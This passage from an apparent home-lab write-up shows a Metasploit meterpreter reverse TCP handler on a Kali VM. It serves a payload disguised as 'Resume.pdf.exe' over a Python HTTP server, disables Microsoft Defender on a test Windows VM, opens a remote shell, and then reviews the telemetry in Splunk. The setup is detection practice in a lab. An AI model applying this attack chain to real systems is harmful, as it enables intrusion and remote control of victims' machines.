 In Terminal, I type options to see what can be configured. The payload option is currently generic/shell_reverse_tcp. This is changed so that it is the same payload as used when the malware is configured and msfvenom. To change the payload, I type set payload windows/x64/meterpreter/reverse_tcp.

<img width="2560" alt="3 8" src="https://github.com/user-attachments/assets/9f5c6dc5-ed52-4183-a733-a97d6f68e10e" />

I type options in Terminal again to verify that the payload option was changed to Windows x64 meterpreter reverse TCP. 

<img width="2560" alt="3 9" src="https://github.com/user-attachments/assets/675e6ad2-a77c-4321-927b-da3f1579baa1" />

Afterwards, the LHOST should is changed to the attacker machine which is the IP address of the Kali Linux machine. I type set lhost 192.168.20.11 in Terminal. Afterwards, I type options to verify that the change took place.

<img width="2560" alt="3 10" src="https://github.com/user-attachments/assets/bf37c294-d86b-4a9c-b6a5-ab77f3072ce0" />

Next, in Terminal, I typed exploit to start the handler and so that we can listen for the test Windows machine to execute the malware. 

<img width="2516" alt="3 11" src="https://github.com/user-attachments/assets/c7cf07b6-7bbd-4aad-9034-7e4845546ff5" />

Next, I set up an HTTP server on the Kali Linux machine so the test Windows machine can download the malware. I use Python to execute the command. In Terminal, I type python3 -m http.server 9999. I chose a port that is not in use, which in this case is 9999. This allows the Windows machine to access the Kali Linux machine in order to download the malware file.

<img width="2560" alt="3 12" src="https://github.com/user-attachments/assets/07ddb9ed-2874-4d6d-8af5-67551ecbe866" />

Next, I move over to the Windows VM and disable Microsoft Defender. Afterwards, I open up a web browser and type in the Kali Linux VM IP address of 192.168.20.11:9999. 

<img width="2560" alt="3 13" src="https://github.com/user-attachments/assets/2101748a-2ded-4c96-bba9-20030a5ed034" />

Next, I download the file from the website and try to open the file. After the file runs, I open up Command Prompt with admin privileges and type netstat -anob. I scroll through the list to find an established connection with the Kali Linux machine and see that it is listed as TCP 192.168.20.11:4444.

<img width="2516" alt="3 14" src="https://github.com/user-attachments/assets/a573de8d-6fd6-49ac-b02e-cb2e96a78c3b" />

To verify that the process is running, I open Task Manager and search for the Resume.pdf.exe by typing in its Process ID (PID) in Task Manager.

<img width="2560" alt="3 15" src="https://github.com/user-attachments/assets/3a30e3d3-2d36-4015-a3d7-973e8009bb9a" />

Back in the Kali Linux VM, I type in shell to establish a shell on the Windows VM. Afterwards, I type net user, net localgroup, and ipconfig. 

<img width="2560" alt="3 16" src="https://github.com/user-attachments/assets/29dc8bd1-f3cb-4109-85c8-b9fe5d5e9738" />
<img width="2560" alt="3 17" src="https://github.com/user-attachments/assets/b764e738-1ab4-4b13-ad02-6318f476d088" />

Lastly, I go back to the Windows VM to see what kind of telemetry has been generated. I go to Splunk.com and log into my account. In the search bar, I type index=endpoint and populate the results. The results then show me the data that was captured from the file transfer that is analyed and a decision is made on the next steps to take.

